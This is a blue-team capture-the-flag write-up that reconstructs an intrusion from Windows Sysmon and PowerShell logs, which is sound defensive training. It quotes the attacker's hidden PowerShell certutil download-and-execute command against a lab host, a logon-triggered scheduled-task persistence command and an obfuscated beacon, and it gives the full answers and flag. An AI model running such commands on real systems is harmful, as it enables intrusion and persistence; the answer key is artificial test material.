








# TryHackMe Blue Team CTF (Oct 2026): Challenge 1 Handbook for the Recently Compromised

*A write-up of challenge 1 from the 2026 Oct CTF (TryHackMe),also available on Medium: https://medium.com/@wendelwalterleander/tryhackme-blue-team-ctf-oct-2026-challenge-1-handbook-for-the-recently-compromised-d42ed8aa0950*

## Challenge Description

 <p align="center">
  
 </p>

**Handbook for the Recently Compromised** is a 30-minute team room from the B2C2B 2026 Oct CTF, and its tagline is *Trace an intrusion through Windows event logs and uncover what happened on the workstation.* This write-up covers the first challenge, and the brief for it reads like this:

- **Mission:** You have been given Windows event logs collected from a workstation under investigation. Review the recorded activity, identify the events associated with the intrusion, and build a timeline that explains what the attacker did on the host.
- **Evidence provided:** Windows Event Logs (.evtx). In the lab these were `Microsoft-Windows-Sysmon%4Operational.evtx` and `PowerShell-Operational.evtx`, sitting in `~/Desktop/artifacts/tools/` next to the `evtx_dump` binary and an `attack-reference` folder.
- **Objectives:** (1) Identify the earliest evidence of suspicious activity. (2) Connect related events and reconstruct the attack timeline. (3) Link the observed actions to relevant MITRE ATT&CK techniques. (4) Establish what the attacker achieved on the workstation.
- **Analyst note (the only hint):** *Start with the timestamps, then compare the accounts, processes, and commands involved. An isolated event may look ordinary; the events around it can tell a different story.*

The five questions were:

1. A trusted Windows utility downloaded a second-stage script onto the host. The command that called the utility obscured its name with a wildcard. What is the utility's full executable name?
2. What full URL did the utility retrieve the second-stage script from?
3. Which MITRE ATT&CK sub-technique describes the abuse of the Windows scripting host that executed the initial attachment?
4. Which MITRE ATT&CK sub-technique describes the persistence mechanism the intruder configured?
5. What is the flag?

## Brief Summary

There isn't a software vulnerability to exploit in this one since it's a pure log-analysis challenge, so the real weakness is kind of a chain of trusted Windows binaries being abused one after another. The logs show a hidden PowerShell process launched by `mshta.exe`, and that PowerShell used a wildcarded `certutil.exe` to download a second-stage script (`pipeline-sync.ps1`) from `pipeline-cdn.thm:8088` and then ran it with the execution policy bypassed. The script created a logon-triggered scheduled task for persistence, beaconed to a check-in URL, and hid its strings with simple concatenation, and the flag turned out to be a Base64 blob that I only found by reading the PowerShell script block logs (Event ID 4104) and decoding it by hand.

## Methodology & Tooling

**Provided artifacts**

- Sysmon operational log (50 records)
- PowerShell operational log (32 records)

There was no Security.evtx, so I leaned on Sysmon Event ID 1 for process creation instead of Security 4688.

**Environment:** the Ubuntu lab VM that TryHackMe provides in the browser. I didn't need the AttackBox since everything here is offline log analysis.

**Tools:** `evtx_dump` (to convert the .evtx files to JSON lines), `jq`, `grep` (including `-P`), and `base64`.

 <p align="center">
  
 </p>

My approach was to convert the logs, build a small table of process-creation events, search it for the wildcard and persistence clues, and then read the PowerShell script block log for the second-stage script, since I figured an attacker script would have to show up there somehow.

## Investigation Walkthrough

### Step 1: Converting the logs

```bash
cd ~/Desktop/artifacts/tools
mkdir -p ~/out
./evtx_dump -o jsonl "Microsoft-Windows-Sysmon%4Operational.evtx" > ~/out/sysmon.jsonl
./evtx_dump -o jsonl "PowerShell-Operational.evtx" > ~/out/ps.jsonl
cd ~/out && wc -l *.jsonl
```

The quotes matter because of the `%4` in the Sysmon filename. That gave me 50 Sysmon records and 32 PowerShell records, so 82 in total, which is small enough to actually read.

 <p align="center">
  
 </p>

### Step 2: Building a process-creation table

```bash
jq -r 'select(.Event.System.EventID==1) | [.Event.System.TimeCreated."#attributes".SystemTime, .Event.EventData.Image, .Event.EventData.CommandLine, .Event.EventData.ParentImage] | @tsv' sysmon.jsonl > proc.tsv
wc -l proc.tsv
```

This pulls the timestamp, process image, command line and parent image of every Sysmon Event ID 1 into one tab-separated file, which came out to 30 rows.

### Step 3: The wildcard and the download (Q1 and Q2)

The question says the utility's name was hidden with a wildcard, so I searched for `*` or `?` inside a command line, and I also checked for the usual script hosts:

```bash
grep -i 'wscript\|cscript' proc.tsv
grep -P '\t[^\t]*[*?][^\t]*\t' proc.tsv
```

The first search returned nothing, and the second returned exactly one row:

 <p align="center">
  
 </p>

```
Time:    2026-10-02T05:02:05.481301Z
Image:   C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
Parent:  C:\Windows\SysWOW64\mshta.exe
Command: powershell.exe -nop -w hidden -c "& ((gci C:\Windows\System32\certu*.exe)[0].FullName) -urlcache -f http://pipeline-cdn.thm:8088/pipeline-sync.ps1 $env:TEMP\pipeline-sync.ps1; powershell -ep bypass -f $env:TEMP\pipeline-sync.ps1"
```

Breaking that down, `gci C:\Windows\System32\certu*.exe` lists files in System32 matching the wildcard, `[0].FullName` takes the first match, and `&` runs it. The `-urlcache -f` flags are certutil's download syntax, so the wildcard resolves to **`certutil.exe`** (Q1). The URL it fetched from is right there in the same command line, saved into `%TEMP%` and then immediately executed with `-ep bypass`, which gives **`http://pipeline-cdn.thm:8088/pipeline-sync.ps1`** (Q2).

One honest note: I never saw a separate `certutil.exe` process row in my table, so my Q1 answer comes from the wildcard plus the `-urlcache -f` flags and not from a resolved image name.

### Step 4: What launched all of this (Q3)

The parent of that PowerShell process was `mshta.exe`, which is the Microsoft HTML Application host, and the PowerShell was started hidden with `-nop -w hidden`. My `wscript`/`cscript` search came back empty, so the question's wording about a scripting host made me want to say T1059.005 or T1059.007 at first, but the logs simply didn't show either of them. Since mshta is itself a trusted Windows binary being abused to run attacker content, I went with **T1218.005 (System Binary Proxy Execution: Mshta)**, and the platform accepted it.

### Step 5: Persistence (Q4)

```bash
grep -i 'schtasks\|\\Run\|Startup\|sc.exe\|New-Service' proc.tsv
```

Two rows matched. The first was just Microsoft Edge with a `--no-startup-window` flag, which only matched because of the word startup, so that's a false positive. The second one is the real thing:

```
Time:    2026-10-02T05:02:08.210969Z
Parent:  powershell.exe
Command: schtasks.exe /create /tn StudioPipelineSync /tr "powershell -nop -w hidden -f C:\Users\j.collins\AppData\Roaming\PipelineSync\pipeline-sync.ps1" /sc onlogon /rl highest /f
```

A task named `StudioPipelineSync` that reruns the script hidden at every logon (`/sc onlogon`) with the highest privileges available to the account (`/rl highest`), created only three seconds after the download. That's **T1053.005 (Scheduled Task/Job: Scheduled Task)** (Q4).

### Step 6: Finding the flag (Q5)

My first thought was to just grep for the flag format, and that found nothing, which kind of told me the flag had to be encoded somehow. So I searched for the word flag instead:

```bash
grep -rhoi 'thm{[^}]*}' .
grep -rhoi 'flag[^"]\{0,80\}' . | sort -u | head -n 30
```

 <p align="center">
  
 </p>

One hit contained `[Convert]::FromBase64String($blob)`, so I printed every PowerShell script block (Event ID 4104) that contained that call:

```bash
jq -r 'select(.Event.System.EventID==4104) | .Event.EventData.ScriptBlockText | select(contains("FromBase64String"))' ps.jsonl
```

 <p align="center">
  
 </p>


This is the second-stage script itself, and every string in it is chopped into little pieces joined with `+` or `-join`, probably to dodge simple string matching. Putting the pieces back together gives:

| Obfuscated in the script | What it really is |
| --- | --- |
| `-join('htt','p://pip','el','ine','-cdn.th','m:','808','8/check','in')` | `http://pipeline-cdn.thm:8088/checkin`, a check-in request with a 3 second timeout and errors swallowed |
| `'S'+'tu'+'dioPi'+'pe'+'li'+'neSyn'+'c'` and the `-join(...)` path | the same `StudioPipelineSync` scheduled task from Step 5 |
| `$blob = ('VEhNe3R'+'IM19Ha'+'D'+'BzdF93MX'+'RIX1Ro'+'M19'+'NMDVUfQ='+'=')` | the Base64 string `VEhNe3RIM19HaDBzdF93MXRIX1RoM19NMDVUfQ==` |
| `Set-Content ($dir + ('\.sy'+'nc-c'+'ach'+'e')) $flag` | decoded value written to `%TEMP%\PipelineSync\.sync-cache` |

The script decodes `$blob` with `[Text.Encoding]::UTF8.GetString(...)` into `$flag`, creates the folder, and writes the result to the hidden `.sync-cache` file. I joined the fragments in order and decoded the result myself:

```bash
echo 'VEhNe3RIM19HaDBzdF93MXRIX1RoM19NMDVUfQ==' | base64 -d
```
 <p align="center">
  
 </p>

## Flag

 <p align="center">
  
 </p>

```
THM{tH3_Gh0st_w1tH_Th3_M05T}
```

Final answers: `certutil.exe`, `http://pipeline-cdn.thm:8088/pipeline-sync.ps1`, `T1218.005`, `T1053.005`, and the flag above.
